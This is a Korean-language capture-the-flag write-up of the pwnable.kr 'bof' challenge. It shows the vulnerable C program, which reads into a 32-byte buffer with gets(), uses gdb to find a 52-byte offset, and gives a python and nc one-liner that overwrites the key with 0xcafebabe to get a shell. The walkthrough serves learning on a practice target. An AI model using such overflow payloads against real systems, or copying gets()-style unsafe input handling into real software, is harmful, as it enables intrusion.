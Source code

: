 ```yaml
---
layout: post
title: pwnable bof
category: [pwnable]
tags: [pwnable, Toddler's Bottle]
fullview: true
comments: true
use_math: true
author: fault2000
---
```


이번 문제는 nc를 통해 실행되는 프로세스에만 접근이 가능하다. 그래서 실행되는 파일을 볼 수 있도록 다운로드 링크를 제공하니, bof와 bof.c를 받아놓고 먼저 머리를 박아보자.  

![image](https://user-images.githubusercontent.com/73513005/185579276-0847c6cc-1f04-4408-b242-deefa01b0644.png)

실행하면 일단 우리의 입력을 기다린다. 아무거나 입력을 해주었더니 overflow me: 가 뜨고 입력할 틈도 없이 Nah...라며 틀렸음을 알려준다. 이걸로는 단서가 부족하다. c파일을 보러가자.  

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

main과 func 함수로 구성되어 있으며, main에서는 단순하게 func에 0xdeadbeef를 인자로 주기만 하고 별다른 행동 없이 종료되며, func에서는 overflowme라는 char형 32바이트 크기의 변수를 선언하고 여기에 gets를 통해 입력을 받는다. 그 뒤 받았던 0xdeadbeef를 담은 key와 0xcafebabe를 비교하여 맞으면 flag를, 틀리면 오류를 출력한다.  
여기서 이미 문제 이름부터 힌트를 주고 있는데, 버퍼 오버플로우를 통해 푸는 문제이다. 선언된 key뒤 overflowme가 선언되는데, 이를 gets로 받으므로 오버플로우에 대한 대비가 하나도 없다. 즉 overflowme와 key간에 거리만 알아내어 정확한 자리에 deadbeef를 cafebabe로 덮어써주면 된다는 이야기다.  

***

![image](https://user-images.githubusercontent.com/73513005/185582643-e95361ea-0417-4881-98c2-d17249748e21.png)

위 그림은 gdb에서 본 func 함수이다. 여기서 우리는 빨간 밑줄이 쳐진 두 부분에 집중하자. 첫 번째 줄위에는 puts, 아래에는 gets 명령이 있는데, 이는 함수 본문에서 printf와 gets 명령 사이임을 짐작할 수 있고, 즉 이 값이 overflowme의 주소임을 유추할 수 있다. 다음 빨간 줄 아래에는 jne, 비교 명령이 있는데, 함수에서 비교하는 과정은 오직 if 문밖에 없기도 하고, 비교대상이 0xcafebabe인 것으로 보아 0x8(%ebp)가 key 값이 저장되어 있는 곳임을 유추할 수 있다.  
즉 -0x2c(%ebp)와 0x8(%ebp)의 거리 차이를 구하고(0x2c+0x8=0x34=52) 이를 채워넣은 다음 원하는 값을 넣으면 될 것임을 짐작할 수 있다.  
이제 직접해보자. 먼저 아무 값이나 52개 넣어주고 그 뒤 0xcafebabe를 넣어주면 된다. 구성은 다음과 같다.  

> python -c "print ('a'*52 + '\xbe\xba\xfe\xca')"

이제 이를 명령어와 조합하여 답을 만들자. 여기서 유의할 점은 그냥 이것만 써놓으면 입력을 할 수 없는 상태에서 아무런 반응이 없다. 반드시 print 뒤에 ;cat을 써주어 우리의 입력을 받는 상태로 만들어주어야함을 인지하자.  

> (python -c "print ('a'*52 + '\xbe\xba\xfe\xca')";cat) | nc pwnable.kr 9000

그 뒤 cat flag를 통해 정답을 볼 수 있다.

![image](https://user-images.githubusercontent.com/73513005/185605596-42fac84a-8627-4bff-9e50-d20aab8ebd2a.png)